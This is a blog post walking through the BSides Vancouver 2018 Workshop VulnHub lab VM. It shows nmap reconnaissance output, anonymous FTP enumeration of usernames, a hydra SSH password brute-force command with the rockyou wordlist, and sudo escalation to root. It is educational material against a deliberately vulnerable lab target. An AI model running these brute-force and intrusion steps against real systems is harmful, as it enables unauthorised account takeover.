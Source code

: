 ```yaml
---
layout: post
date: 2018-06-22 06:52:37 +0000
last_modified_at: 2018-06-23 03:42:32 +0000
title: "BSides Vancouver: 2018 (Workshop) Walkthrough"
category: Walkthrough
tag: [VulnHub, "BSides Vancouver"]
comments: true
image:
  feature: bsides-vancouver-2018-workshop-walkthrough.jpg
  credit: geralt / Pixabay
  creditlink: https://pixabay.com/en/workshop-board-hand-leave-teamwork-746539/
---
```


This post documents the easiest walkthrough of BSides Vancouver: 2018 (Workshop), a boot2root [VM][1] created by [abatchy][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This VM aims to create a safe environment to perform real-world penetration testing on an intentionally vulnerable target. As the name implied, the VM appeared as course material in a workshop during 2018 BSides Vancouver.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03 17:52 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.30.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

`nmap` finds `21/tcp`, `22/tcp`, and `80/tcp` open. None of the services are vulnerable to any remote code execution attacks right off the bat. Let's explore the `ftp` service next since we can log in anonymously.

### FTP Service

There's a file `users.txt.bk` in the `public` directory — it contains usernames.

```
# cat users.txt.bk
abatchy
john
mai
anne
doomguy
```
### SSH Service

If I've to guess, these are probably users with an account in the target. Let's find out.

![SSH Login](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.jlutahztgc.png)

As you can see, `anne` is the sole account that can login via SSH with a password. This calls for a brute-force attack.

### Hail Hydra

For online brute-force attack, I like to use `hydra` and the **rockyou** wordlist. Here's the command.

```
# hydra -l anne -P /usr/share/wordlists/rockyou.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.129
[22][ssh] host: 192.168.30.129   login: anne   password: princess
```

### SSH Access

I don't believe it — this is way too easy.

![SSH Access](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.dovkhr1yz8s.png)

### Privilege Escalation

Guess what? `anne` is able to `sudo` as `root`.

![sudo](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.6pu5qdr84a.png)

### Eyes on the Prize

I got my eyes on the prize.

![flag.txt](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.m2ls023yfbf.png)

### Afterthought

Admittedly, this VM is not too difficult since it's targeting delegates attending the workshop. That's also the reason why there are other ways to gain remote access and `root`ing the VM because the instructor would then cover other attack surfaces like WordPress and/or kernel exploit during the workshop.

[1]: https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/
[2]: https://twitter.com/@abatchy17
[3]: https://www.vulnhub.com
